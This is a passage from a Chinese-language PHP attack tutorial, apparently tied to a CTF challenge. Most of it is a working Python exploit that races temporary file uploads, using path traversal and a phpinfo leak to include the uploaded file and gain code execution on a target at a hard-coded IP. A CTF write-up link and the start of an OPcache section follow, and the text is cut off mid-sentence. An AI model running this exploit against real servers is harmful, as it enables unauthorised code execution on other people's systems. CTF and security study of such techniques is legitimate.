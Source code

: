 ```python
				reqs='http://47.97.221.96:23333/index.php?action=../../var/www/phpinfo/index.php&a='+padding
				#reqs='http://172.17.0.2:80/index.php?action=../../var/www/phpinfo/index.php&a='+padding
				response = requests.post(reqs, headers=headers, cookies=cookies, files=files, verify=False)
				data = response.content
				data = re.search(r"(?<=tmp_name] => ).*", data).group(0)
				print data

				reqs = 'http://47.97.221.96:23333/index.php?action=../..'+data
				#reqs = 'http://172.17.0.2:80/index.php?action=../..'+data
				print reqs
				response = requests.get(reqs, verify=False)
				data = response.content
				print data

			i+=1
			self.queue.task_done()

for i in range(NumOfThreads):
    t=checkHash(queue)
    t.setDaemon(True)
    t.start()

for x in range(0, 9999):
	x=str(x)
	queue.put(x.strip())

queue.join()

```
 
再附上这位大哥当时CTF的实战题解
 
```
http://dann.com.br/php-winning-the-race-condition-vs-temporary-file-upload-alternative-way-to-easy_php-n1ctf2018/
```
 
## OPCACHE 
 
### 定义 
 
opcache是缓存文件，他的作用就类似于web项目中的静态文件的缓存, 比如我们加载一个网页, 浏览器会自动帮我们把jpg, css缓存起来, 唯独php没有缓存, 每次均需要open文件, 解析代码, 执行代码这一过程, 而opcache即可解决这个问题, 代码会被高速缓存起来, 提升访问速度。
 
### 适用目标 
 
同样也是查看phpinfo()
 
如果目标网站
 
